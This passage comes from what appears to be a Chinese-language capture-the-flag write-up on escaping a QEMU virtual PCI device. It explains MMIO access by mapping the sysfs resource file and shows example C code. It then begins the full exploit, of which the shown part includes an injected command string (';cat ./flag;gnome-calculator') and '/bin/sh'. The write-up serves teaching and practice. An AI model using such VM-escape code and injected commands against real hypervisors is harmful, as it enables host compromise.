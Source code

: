 MMIO 的交互方式則略有麻煩，因爲 MMIO 本質上是直接讀寫對應的物理地址，不過我們可以通過 `mmap()` 映射 sysfs 下的資源文件來完成內存訪問。以本題爲例，通過 `lspci` 命令獲取到的編號爲 `00:03.0`，那麼我們便可以通過 `mmap()` 映射 `/sys/devices/pci0000:00/0000:00:03.0/resource0` 文件直接完成 MMIO。類似於 PMIO，MMIO 的讀寫地址同樣需要對齊到讀寫長度。下面是一個例子：

```c
void mmio_write(uint32_t *addr, uint32_t val)
{
    *addr = val;
}

uint32_t mmio_read(uint32_t *addr)
{
    return *addr;
}

int main(int argc, char **argv, char **envp)
{
    uint64_t  mmio_addr;
    int   mmio_fd;
    long  val;
    //...
    mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0",
            O_RDWR | O_SYNC);
    if (mmio_fd < 0) {
        errExit("failed to open mmio file! wrong path or no root?");
    }

    mmio_addr = (uint64_t)
            mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_addr == MAP_FAILED) {
        errExit("failed to mmap mmio space!");
    }

    val = mmio_read(mmio_addr);
    mmio_write(mmio_addr + 4, 0xbeefdead);
```

> 注：我們也可以通過映射 `/sys/devices/pci0000:00/0000:00:03.0/resource1` 文件的形式來以內存讀寫的形式完成 PMIO。

完整 exp 如下，執行了 `cat ./flag` 與彈計算器的命令：

```c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <stdint.h>
#include <sys/io.h>

#define STRNG_MMIO_REGS 64
#define STRNG_MMIO_SIZE (STRNG_MMIO_REGS * sizeof(uint32_t))

#define STRNG_PMIO_ADDR 0
#define STRNG_PMIO_DATA 4
#define STRNG_PMIO_REGS STRNG_MMIO_REGS
#define STRNG_PMIO_SIZE 8

char calc_str[0x100] = ";cat ./flag;gnome-calculator";
char sh_str[0x100] = "/bin/sh";

void errExit(char * msg)
{
    printf("\033[31m\033[1m[x] Error: \033[0m%s\n", msg);
    exit(EXIT_FAILURE);
}
```